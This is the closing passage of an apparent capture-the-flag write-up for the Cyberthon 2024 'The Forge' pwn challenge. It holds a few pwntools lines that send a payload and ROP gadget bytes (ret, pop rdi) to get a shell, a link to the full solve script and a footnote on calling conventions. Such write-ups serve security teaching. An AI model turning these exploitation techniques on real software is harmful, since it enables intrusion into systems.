 ```py
p.sendlineafter(b":", payload)              # color
p.sendlineafter(b":", str(0xc3).encode())   # length : ret
p.sendlineafter(b":", str(0x5f).encode())   # width : pop rdi

p.interactive()
```

![image](flag.png)
_a huge saber and a flag_

_you can find the full solve script [here](/assets/posts/2024-05-04-cyberthon-2024-the-forge-pwn/dist/solve.py)_

## Appendix

[^calling-convention]: RDI is the first argument of a function according to [calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI).
